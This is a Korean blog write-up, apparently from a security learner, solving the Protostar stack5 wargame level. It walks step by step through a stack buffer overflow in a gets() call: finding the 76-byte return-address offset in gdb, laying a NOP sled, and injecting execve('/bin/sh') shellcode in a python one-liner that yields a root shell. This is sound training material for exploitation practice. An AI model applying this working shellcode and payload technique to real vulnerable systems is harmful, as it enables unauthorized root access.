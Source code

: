 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack5"
date: 2016-07-04 22:40:00
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack5 - Exploit Exercises](https://exploit-exercises.com/protostar/stack5/)

>Stack5 is a standard buffer overflow, this time introducing shellcode.
>
>This level is at /opt/protostar/bin/stack5
>
>Hints
>
>At this point in time, it might be easier to use someone elses shellcode
>If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
>remove the int3s once your shellcode is done.

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## 해결 방안

jump 이동 시킬 함수가 따로 있는 것이 아니라 BoF로 shellcode inject 하여 실행하면 될 듯... 

## 분석

shellCode 를 위해서 실행 환경 확인... `x86` 이고, shell은 `/bin/bash` 이다.

```bash
$ uname -a
Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux 

$ id
uid=1001(user) gid=1001(user) groups=1001(user)
$ whoami
user

$ which sh
/bin/sh
$ ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Nov 22  2011 /bin/sh -> dash

$ which bash
/bin/bash
$ ls -al /bin/bash
-rwxr-xr-x 1 root root 811156 Apr 10  2010 /bin/bash

$ which bash
/bin/bash
$ ls -al /bin/dash
-rwxr-xr-x 1 root root 84144 Dec 14  2010 /bin/dash  
```

#### `eip` 위치 확인

먼저 `lr` 위치 파악하기 위하여 pattern 으로 crash 해보자. [stack4](https://humb1ec0ding.github.io/2016/07/03/exploit-exercise-protostar-stack4/)와 동일하게 `76` bytes 떨어져 있다.

```
(gdb) r < /tmp/input
Starting program: /opt/protostar/bin/stack5 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()  

$ pattern.py 0x63413563
Pattern 0x63413563 first occurrence at position 76 in pattern.
```

#### `buffer[]` 위치 확인

```bash
$ python -c 'print "A"*100'  > /tmp/AAAA  
$ gdb ./stack5
...
(gdb) r < /tmp/AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/stack5 < /tmp/AAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()  

(gdb) x/100x $esp-0x60
0xbffffc70:     0xbffffc80      0xb7ec6165      0xbffffc88      0xb7eada75
0xbffffc80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
...
```

위와 같이 gdb 를 이용해서 stack 위치를 확인하는 것까지는 좋은데... 여기서 항상 발생하는 문제는 **gdb 로 실행한 경우와 바로 실행한 경우에 stack 이 다르게 잡힌다는 것**이다.  

[c - Buffer overflow works in gdb but not without it - Stack Overflow](http://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)

#### buffer[] 시작부터  shellcode 넣고 바로 jump 시키는 경우

따라서 gdb 로 실행해서 buffer 주소를 알아낸 후에 정확하게 그 자리로 jump 하도록 하면 잘 안되는 경우가 많다.

```
buffer[76] + eip
= shellcode[x] + dummp [76-x] + buffer 시작위치
```

#### NOP slide 많이 이용해서 stack 위치 변해도 동작하도록

안전하게 아래와 같이 exploit payload 를 구성해보자.

```
buffer[76] + eip
= dummy[76] + eip + NOP[300] + shellcode
```

#### ShellCode 준비 (33bytes)

그냥 shell 보다는 root shell 이 좋을 것 같아서 아래로 선택.

[Linux/x86 - setreuid(0,0) + execve(/bin/sh, [/bin/sh, NULL])](http://shell-storm.org/shellcode/files/shellcode-250.php)

#### Payload 구성

NOP 를 300bytes 정도 깔아놓고 그 중간으로 jump 시키면 stack 이 움직여도 이 범위 안에서는 NOP 을 타고 shellcode 로 갈 것으로 예상함.

```
buffer[76] + eip
= dummy[76] + eip + NOP[300] + shellcode
```

이렇게 길게 넣을 수 있는지 우선 확인해보자..

```bash
$ python -c 'print "A"*76 + "B"*4 + "C"*400' > /tmp/stack5

$ gdb ./stack5
(gdb) r < /tmp/stack5
Starting program: /opt/protostar/bin/stack5 < /tmp/stack5

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()   

(gdb) x/100x $esp - 0x60
0xbffffc60:     0xbffffc70      0xb7ec6165      0xbffffc78      0xb7eada75
0xbffffc70:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x42424242
0xbffffcc0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffcd0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffce0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffcf0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd00:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd10:     0x43434343      0x43434343      0x43434343      0x43434343  
...
0xbffffe20:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffe30:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffe40:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffe50:     0x00000000      0x00000000      0xd1000000      0xbc94263b
...
```

모두 잘 들어간 듯하다.

## Final Exploit

가장 중요한 NOP slide 중간에 jump 시킬 위치는 대충해서 `0xbffffde0` 정도로 선택.

```bash
$ (python -c 'print "A"*76 + "\xe0\xfd\xff\xbf" + "\x90" * 300 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root   
```

성공~~~

####  입력에 `cat` 없다면 ?

동일한 exploit 을 사용해도 `cat` 을 사용하지 않는다면 `stdin`,`stdout` 잡아주지 못해서 한 번 실행이 되고 종료가 되는지.. `root` 가 아니라 원래 계정 `user` 로 돌아오는 듯 하다.

```bash
$ python -c 'print "A"*76 + "\xe0\xfd\xff\xbf" + "\x90" * 300 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' | ./stack5
$ id
uid=1001(user) gid=1001(user) groups=1001(user)
$ whoami
user   
```
